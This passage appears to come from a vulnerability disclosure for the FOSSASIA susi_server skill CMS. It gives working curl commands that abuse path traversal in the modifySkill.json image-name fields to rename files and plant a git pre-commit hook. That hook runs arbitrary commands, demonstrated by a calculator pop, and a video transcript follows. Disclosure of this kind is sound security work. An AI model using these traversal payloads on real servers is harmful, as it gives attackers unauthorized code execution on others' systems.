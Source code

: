 We change the first curl command:
1. Run
   ```bash
   `curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=whois' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=whois' \
   -F 'content=ANYTHING' -F 'new_image_name=../pre-commit.txt' \
   -F 'old_image_name=../../../../../../susi_server/src/org/json/JSONException.java' \
   'http://localhost:4000/cms/modifySkill.json'
   ```
   (`-F 'old_image_name=../../../../../../`**`susi_server/src/org/json/JSONException.java`**` changed)
2. Run
   ```bash
   curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=pre-commit' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=pre-commit' \
   -F $'content=#!/bin/sh\nexec xcalc' \
   -F 'new_image_name=../../../../../../susi_skill_data/.git/hooks/pre-commit' \
   -F 'old_image_name=../pre-commit.txt' 'http://localhost:4000/cms/modifySkill.json'
   ```

Et voila!
After about 60 seconds a calc pops up.

# POC-Video - Detailed Explanation

<video preload="none" controls="controls" style="width:100%" aria-describedby="video-transcript">
{% for video in site.static_files %}
  {% if video.path contains 'assets/videos/isl-2020-001-fossasia_susi_server_git_hooks_rce.mp4' %}
      <source type="video/mp4" src="{{ video.path }}">
  {% endif %}
  {% if video.path contains 'assets/videos/isl-2020-001-fossasia_susi_server_git_hooks_rce.webm' %}
      <source type="video/webm" src="{{ video.path }}">
  {% endif %}
{% endfor %}
  <p>Your browser does not support the video element.</p>
</video>
<h4>Video Transcript - Detailed Explanation:</h4>
<p id="video-transcript">

1. In a terminal `bin/start.sh` is executed inside the `susi_server` folder to start the server.

2. In a terminal the following command is executed:
   ```bash
   curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'model=general' \
   -F 'group=Knowledge' -F 'language=en' -F 'skill=whois' -F 'content=OWNED' \
   -F 'image=' -F 'image_name=owned' 'http://localhost:4000/cms/createSkill.json'
   ```
   This creates the file `susi_skill_data/models/general/Knowledge/en/whois.txt` (`susi_skill_data` is a sibling directory of `susi_server`) with the content `OWNED`.
